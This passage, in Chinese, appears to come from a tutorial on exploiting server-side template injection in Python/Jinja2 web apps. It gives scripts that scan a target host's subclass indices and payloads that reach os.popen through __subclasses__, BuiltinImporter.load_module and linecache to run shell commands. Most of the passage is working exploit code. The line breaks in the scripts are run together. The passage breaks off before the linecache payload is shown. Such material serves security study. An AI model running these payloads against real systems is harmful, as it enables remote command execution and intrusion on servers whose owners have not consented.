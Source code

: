 ```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"    res = requests.get(url=url, headers=headers)    if 'popen' in res.text:        print(i)# 得到编号为117
```

直接构造 payload 即可：

```
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Qy6wRAhw1ybImmpXqH62wSek4Jje3650Quv5ghbCibS1B2Q3OcDXeTEQ/640?wx_fmt=png)image-20210308105126768

这样得到的索引还是很准确的。

除了这种方法外，我们还可以直接导入 os 模块，python 有一个 importlib 类，可用 load_module 来导入你需要的模块。

### 寻找 importlib 类执行命令

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'>` 类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。我么可以直接利用该类中的 load_module 将 os 模块导入，从而使用 os 模块执行命令。

首先编写脚本遍历目标 Python 环境中 importlib 类的索引号：

```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"    res = requests.get(url=url, headers=headers)    if '_frozen_importlib.BuiltinImporter' in res.text:        print(i)# 得到编号为69
```

构造如下 payload 即可执行命令：

```
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QHEk1A6IRWgpFkLKxaeNLI2Qd9hvKWCyMjV0kLTn1PmmSpkLU2AIjkA/640?wx_fmt=png)image-20210308162047378

### 寻找 linecache 函数执行命令

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

首先编写脚本遍历目标 Python 环境中含有 linecache 这个函数的子类的索引号：

```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"    res = requests.get(url=url, headers=headers)    if 'linecache' in res.text:        print(i)# 得到一堆子类的索引:168169203206207208...
```

随便挑一个子类构造 payload 即可：

